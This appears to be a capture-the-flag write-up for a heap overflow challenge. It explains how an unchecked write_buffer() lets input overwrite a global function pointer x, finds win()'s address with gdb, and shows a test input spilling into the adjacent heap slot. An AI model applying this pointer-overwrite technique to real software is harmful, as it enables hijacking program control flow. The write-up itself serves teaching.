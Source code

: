 It's pretty similar to the challenge before. The variables `x` and `input_data` are behind each other on the heap (global variables). The function `write_buffer()` doesn't check the input length of the user, so we can write over the variable space above and manipulate the content of `x`.

To print the flag calls the program the `check_win()` function. This function interprets the content of `x` as a pointer and tries to executes it. So we have to inject a pointer in `x` with the given buffer overflow.

The function `win()` prints the file `flag.txt`. So we have to inject its pointer. The program has no PIE, so we can determine the address of the function with gdb:
```
$ gdb ./chall
GNU gdb (GDB) Fedora Linux 14.1-3.fc38

[...]

Reading symbols from ./chall...
gdb-peda$ x win
0x4011a0 <win>: 0xec834853
gdb-peda$ p &win
$1 = (void (*)()) 0x4011a0 <win>
gdb-peda$
```
The address is `0x4011a0`.

I just tried out the size of the input that we need to run over the buffer of the input data:
```
$ ./chall

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATEST

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x15ff6b0  ->   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATEST
+-------------+-----------+
[*]   0x15ff6d0  ->   TEST

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice:
```
But from the source code we can also see that it's the size of a char pointer.
